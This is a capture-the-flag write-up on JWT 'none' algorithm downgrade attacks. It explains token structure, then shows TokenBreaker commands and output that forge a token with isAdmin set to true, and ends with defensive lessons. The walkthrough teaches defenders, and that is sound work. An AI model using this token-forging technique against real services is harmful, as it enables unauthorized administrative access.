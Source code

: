 # Algorithm Negotiation

## The Basics

Sometimes a bad implementation or a known vulnerability in an older algorithm can lead to serious trouble, and a good example of this is the SSL's [Poodle](https://www.openssl.org/~bodo/ssl-poodle.pdf) Attack which relies on the negotiation of an old an vulnerable algorithm, in combination with a [Padding Oracle](padding-oracle.nd) Attack.

There are a few good examples on the application of this issue and another one really interesting is related with [JWT's](https://jwt.io/introduction/). 

Although JWT is a really nice thing, there are a lot of different things that can go wrong with the implementation. 

Lets start by getting a really quick overview of JWTs.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

This is a really simple jwt, which consist of 3 parts, comma separated:
* Header - Has information like the algorithm being used
* Payload - The actual data 
* Signature - A signature to verify JWT

Each of these sections is a json structure encoded with base64url

JWT's are being widely used nowadays as a way to validate sessions.


The important parts to understand here about the jwt are the algorithm and the signature. The algorithm specifies the algorithm used to secure the jwt, while the signature makes sure that the jwt wasn't manipulated by an attacker

According to the JWT [specification](https://tools.ietf.org/html/rfc7519) there are two algorithms that are mandatory and need to be supported on every implementation: **none** and **HS256**.

The first one as the name indicates, is not having an algorithm at all, so no signature is needed. The second one is an HMAC with SHA256.


Depending on how a library is implemented, an attacker can manipulate the algorithm, in order to change it to none, or even from something like RS256 which uses a public key, to an HS256

Auth0 has an awesome blog and resources about attacks on JWT and we definitely recommend you to take some time to read their blog posts, specially the post [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## Solving the challenge

This challenge has a vulnerability where the service parsing the jwt accepts the none algorithm, even when the developer specifies a password. So as long as an attacker sends a token with a none algorithm, the server will accept it.

In the challenge, there is a JWT token stored in localstorage

You can start by using [jwt.io](https://jwt.io/) to decode the token, and understand whats there...

In this case, since we are trying to exploit the algorithm downgrade we are going to use a nice tool called [TokenBreaker](https://github.com/Goron/TokenBreaker).

This tool exploit the two issues mentioned before. 

You can download the tool and run it with python3.

```bash
pip install -r requirements.txt
python TheNone.py -t TOKEN_OBTAINED_FROM_LOCALSTORAGE
```

This tool will guide you through the process of changing the token. 

Take a look on what you need to do:

```
python TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJBTk9OW
U1PVVNVU0VSIiwiaXNBZG1pbiI6ZmFsc2UsImlhdCI6MTYyNTI1MzgzN30.8-SY5A-4DqMglOurZ6aL7x1A5yD0DS8_34DJYXzZY-g
 ________         _  __
/_  __/ /  ___   / |/ /__  ___  ___
 / / / _ \/ -_) /    / _ \/ _ \/ -_)
/_/ /_//_/\__/ /_/|_/\___/_//_/\__/

[*] Decoded Header value: {"alg":"HS256","typ":"JWT"}
[*] Decoded Payload value: {"sub":"ANONYMOUSUSER","isAdmin":false,"iat":1625253837}
[*] New header with 'alg' > 'none': {"alg":"None","typ":"JWT"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"sub":"ANONYMOUSUSER","isAdmin":true,"iat":1625253837}
[+] Successfully encoded Token: .
```

The tool asks you if you want to change the header, which we said no, and then asks you to specify your new payload. As you can see from the decoded value, there is a field called isAdmin that is set to false, so we just need to flip it to true. 

And the tool will give you a new token that you need to change in localstorage, refresh the page, and there it is: a new paste in the view, with the flag


## Lesson Learned

* Use a well known and proven JWT library to parse JWT tokens.
* Do not accept JWT tokens with none algorithm
* If you support different algorithms, specify a key for each algorithm
* If you only support one algorithm, make sure you specify it in the verification method, to make sure an attacker can't change it